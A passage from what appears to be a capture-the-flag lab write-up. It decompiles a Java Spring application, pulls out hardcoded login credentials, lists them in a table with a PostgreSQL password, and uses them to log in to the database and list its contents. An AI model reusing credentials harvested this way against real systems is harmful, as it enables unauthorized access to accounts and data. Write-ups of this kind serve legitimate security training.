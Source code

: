 | Username | email | Password     | Hash | Usage      |
| -------- | ----- | ------------ | ---- | ---------- |
| josh         |       |              |      |            |
| **postgres** |       | **Vg&nvzAQ7XxR** |      | PostgreSQL |

We can go further and decompile this java application using `jd-gui`:

![[source.png]]

```java
package BOOT-INF.classes.htb.cloudhosting.scheduled;

import java.io.IOException;
import java.util.concurrent.TimeUnit;
import org.springframework.scheduling.annotation.Scheduled;
import org.springframework.stereotype.Component;

@Component
public class FakeUser {
  @Scheduled(timeUnit = TimeUnit.MINUTES, fixedDelay = 5L)
  public void login() throws IOException {
    System.out.println("Logging in user ...");
    Runtime.getRuntime().exec(new String[] { "curl", "localhost:8080/login", "--request", "POST", "--header", "Content-Type: application/x-www-form-urlencoded", "--data-raw", "username=kanderson&password=MRdEQuv6~6P9", "-v" });
  }
}
```

We can add this new credential :

| Username  | email | Password     | Hash | Usage                |
| --------- | ----- | ------------ | ---- | -------------------- |
| josh         |       |              |      |            |
| postgres  |       | Vg&nvzAQ7XxR |      | PostgreSQL           |
| **kanderson** |       | **MRdEQuv6~6P9** |      | web app on port 8080 | 

Since we have a credential to connect to the database, let's explore it, using the `postgres`  credential :

```shell
psql -h localhost -U postgres -W
```

Start by listing databases :

```text
\list

List of databases
Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
|          |          |             |             | postgres=CTc/postgres
template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
|          |          |             |             | postgres=CTc/postgres
(4 rows)
```
